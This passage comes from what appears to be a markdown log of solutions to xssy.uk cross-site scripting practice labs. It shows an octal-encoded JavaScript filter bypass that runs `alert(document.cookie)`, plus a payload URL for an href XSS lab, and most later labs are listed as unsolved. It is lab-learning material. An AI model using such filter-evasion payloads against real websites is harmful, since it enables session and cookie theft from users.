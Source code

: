  - Step 2: Encode `[]["filter"]["constructor"]("alert(document.cookie)")()` with ASCII Octal => `[]["\146\151\154\164\145\162"]["\143\157\156\163\164\162\165\143\164\157\162"]("\141\154\145\162\164\50\144\157\143\165\155\145\156\164\056\143\157\157\153\151\145\51")()`

---

### Lab 214: Href XSS 2
- **URL Lab**: https://xssy.uk/lab/214
- **Payload**: 
```
https://eqh42jmm.xssy.uk/
```
- **Full URL**: 
```
https://sh5efuuc.xssy.uk/target.ftl?url=https%3A%2F%2Feqh42jmm.xssy.uk%2F
```

---

### Lab 215: WebSocket XSS
- **URL Lab**: https://xssy.uk/lab/215
- **Status**: Not solved yet

---

### Lab 220: Unscripted
- **URL Lab**: https://xssy.uk/lab/220
- **Status**: Not solved yet

---

### Lab 738: Referer & Origin Check
- **URL Lab**: https://xssy.uk/lab/738
- **Status**: Not solved yet

---

### Lab 775: Integrity Policy
- **URL Lab**: https://xssy.uk/lab/775
- **Status**: Not solved yet

---

### Lab 857: URL DOM XSS
- **URL Lab**: https://xssy.uk/lab/857
- **Status**: Not solved yet

---

### Lab 884: Templates 2
- **URL Lab**: https://xssy.uk/lab/884
- **Status**: Not solved yet

---